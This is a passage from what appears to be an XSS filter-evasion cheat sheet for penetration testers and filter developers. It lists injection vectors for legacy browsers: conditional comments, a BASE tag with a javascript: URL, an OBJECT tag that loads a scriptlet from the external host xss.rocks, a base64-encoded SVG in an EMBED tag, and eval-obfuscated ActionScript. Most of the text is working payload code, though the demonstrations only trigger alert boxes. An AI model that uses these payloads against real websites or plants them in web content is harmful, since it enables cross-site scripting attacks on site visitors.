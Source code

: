 Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine mode). Some websites consider anything inside a comment block to be safe and therefore does not need to be removed, which allows our Cross Site Scripting vector. Or the system could add comment tags around something to attempt to render it harmless. As we can see, that probably wouldn't do the job:

```html
<!--[if gte IE 4]>
  <script>
    alert('XSS');
  </script>
<![endif]-->
```

## BASE Tag

Works in IE and Netscape 8.1 in safe mode. You need the `//` to comment out the next characters so you won't get a JavaScript error and your XSS tag will render. Also, this relies on the fact that the website uses dynamically placed images like `images/image.jpg` rather than full paths. If the path includes a leading forward slash like `/images/image.jpg` you can remove one slash from this vector (as long as there are two to begin the comment this will work):

```html
<base href="javascript:alert('XSS');//" />
```

## OBJECT Tag

If they allow objects, you can also inject virus payloads to infect the users, etc. and same with the APPLET tag). The linked file is actually an HTML file that can contain your XSS:

```html
<object type="text/x-scriptlet" data="http://xss.rocks/scriptlet.html"></object>
```

## EMBED SVG Which Contains XSS Vector

This example only works in Firefox, but it's better than the above vector in Firefox because it does not require the user to have Flash turned on or installed. Thanks to nEUrOO for this one.

```html
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

## Using ActionScript Inside Flash for Obfuscation

```js
a = 'get';
b = 'URL("';
c = 'javascript:';
d = "alert('XSS');\")";
eval(a + b + c + d);
```
